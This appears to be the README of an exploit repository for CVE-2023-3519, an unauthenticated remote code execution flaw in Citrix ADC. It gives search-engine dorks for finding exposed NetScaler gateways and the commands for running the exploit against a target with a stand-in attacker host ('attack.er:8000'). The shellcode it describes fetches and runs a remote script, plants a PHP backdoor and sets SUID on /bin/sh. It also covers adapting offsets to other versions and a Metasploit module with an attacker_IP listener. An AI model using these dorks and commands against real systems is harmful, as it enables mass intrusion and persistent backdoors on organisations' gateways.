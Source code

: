 # CVE-2023-3519

![](https://img.shields.io/static/v1?label=Product&message=Citrix%20ADC&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=Citrix%20VPX%2013.1-48.47&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CVSSv3:%209.8.%20Unauthenticated%20Remote%20Code%20Execution&color=red)



This exploit uses addresses and shellcode for Citrix VPX 13.1-48.47. For the full writeup, click [here](https://bishopfox.com/blog/analysis-exploitation-cve-2023-3519).
 - Shodan dork:
```
title:"NetScaler AAA","Citrix Gateway","NetScaler Gateway"
```
- [Hunter](https://hunter.how/) dork:
```
product.name="NetScaler AAA"
```
```
product.name="Citrix Access Gateway"
```

### Scanner
```
# Check a single URL
python3 scanner.py --url https://example.com

# Check multiple URLs from a file
python scanner.py --file urls.txt

# Check multiple URLs from a file and check for IOCs
python scanner.py --file urls.txt --ioc-check
```
You can also use the [template for nuclei.](https://github.com/SalehLardhi/CVE-2023-3519)

### Usage exploit
NASM is required to build the shellcode. 
```
$ sudo apt install nasm
```

The included shellcode will download and run a shell script from a remote http(s) server. The script takes 3 arguments: the target host, the target port, and the URL of a shell script payload. An example payload which runs `id` and `uname -a` before cleaning up after itself is included in this repo. 

```
$ echo 'id' > a
$ python3 -m http.server &
$ python3 exploit.py target.com 443 attack.er:8000/a
```
The URL must be short enough to fit in the shellcode buffer, and you will get a warning if it is too long. 

### Shellcode artifacts
The shellcode will create a PHP backdoor in `/var/netscaler/logon/a.php` and set the SUID bit on `/bin/sh`. The included `sh` payload shows an example of automatically cleaning up these artifacts. Also note that the shellcode does not close its file descriptors, so excessive repeated exploitation may result in resource exhaustion. 

### Adapting to other versions
For FreeBSD-based Citrix targets, you should only need to find 3 values: the offset of the saved return pointer, a `jmp rsp` ROP gadget (or something equivalent, such as `push rsp; ret;`), and the address to jump to in order to avoid a crash. These parameters are all hardcoded near the top of `exploit.py`.

### Metasploit Framework
```
wget https://raw.githubusercontent.com/getdrive/PoC/main/2023/Citrix%20ADC%20RCE%20CVE-2023-3519/citrix_formssso_target_rce.rb
```
```
cp citrix_formssso_target_rce.rb /usr/share/metasploit-framework/modules/exploits/freebsd/http/
```
```
msfdb reinit; msfconsole -q
```
```
msf6 > use exploits/freebsd/http/citrix_formssso_target_rce.rb
```
```
msf6 exploit(freebsd/http/citrix_formssso_target_rce) > set rhosts target_IP
msf6 exploit(freebsd/http/citrix_formssso_target_rce) > set lhost attacker_IP
msf6 exploit(freebsd/http/citrix_formssso_target_rce) > run
```
